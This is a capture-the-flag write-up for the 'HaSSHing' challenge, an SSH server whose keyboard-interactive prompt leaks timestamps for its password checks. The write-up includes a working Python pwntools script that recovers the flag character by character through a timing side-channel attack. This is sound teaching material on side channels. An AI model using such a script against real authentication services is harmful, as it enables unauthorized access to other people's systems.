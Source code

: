 # HaSSHing

In this easy pwn-misc challenge by elopez from Trail of Bits, we are given just the address of an SSH server which happens to utilize keyboard-interactive authentication.
This is the authentication type in which you connect, enter your password in an interactive prompt, and are granted or denied access based upon that. The goal is to find the
right password that grants us access, which is the flag.

The challenge description tells us:

> Interact with the keyboard or not, I don’t care; as only the flag will let you in - no chance of hash collisions here!
> The flag consists only of the following characters: "CFT_cdhjlnstuw{}" and digits. Each character may appear multiple times.

## Analyzing the Prompt

The prompt looks somewhat like this (based upon my memory):

```console
$ password:
# Now one can interactively enter a password
[2024-06-21T15:55:36,411868658] Checking Password
[2024-06-21T15:55:50,997742893] Access Denied
```

If you've ever used SSH with keyboard-interactive authentication before, you will probably notice that this prompt looks fishy. The standard prompt
won't tell you such granular timings for when it's checking passwords.

## The Solution

This reporting of timings (and being told the charset used in the flag) has lead me to suspect that this uses a custom prompt that uses a hashing
implementation that is susceptible to a timing attack, in which we can find the flag by trying every possible character, and seeing which one has the longest
delta in between checking and denying access. The character that took the longest is then appended to the flag and we can continue with finding the next character, using
the current flag as a basis. Knowing the flag format `justCTF{}`, we already know that the flag must start with `justCTF{` and end with `}`. I also made the bold assumption
that the uppercase characters `CTF` and `{` won't appear elsewhere in the flag, minimzing the charset a little.

Let's implement this timing attack in a python script:

```python
#!/usr/bin/env python3
from pwn import *
from datetime import datetime

r = process("ssh hasshing.nc.jctf.pro -l ctf -p 1337", shell=True, stdin=PTY)

flag_charset = "_}cdhjlnstuw0123456789"
FLAG = "justCTF{"

def login(password):
    r.sendlineafter(b"password: ", password)
    r.recvline()
    check_time = datetime.strptime(r.recvline().decode().split("[")[-1].split("]")[0], "%Y-%m-%d %H:%M:%S.%f")
    resp = r.recvline().decode().strip()
    if not "That wasn't it, sorry. Try again." in resp:
        print(resp)
        exit()
    resp_time = datetime.strptime(resp.split("[")[-1].split("]")[0], "%Y-%m-%d %H:%M:%S.%f")
    return (resp_time - check_time).microseconds

def get_flag():
    global FLAG, r
    while True:
        time_per_char = {}
        for i in range(1):
            for char in flag_charset:
                try_flag = FLAG + char
                if not char in time_per_char:
                    time_per_char[char] = []
                time_per_char[char].append(login(try_flag.encode()))
        print(time_per_char)
        for char in time_per_char:
            time_per_char[char] = sum(time_per_char[char]) / len(time_per_char[char])
        FLAG += max(time_per_char, key=time_per_char.get)
        print(FLAG)

get_flag()
```

Running this presents us with the flag:

> `justCTF{s1d3ch4nn3ls_4tw_79828}`
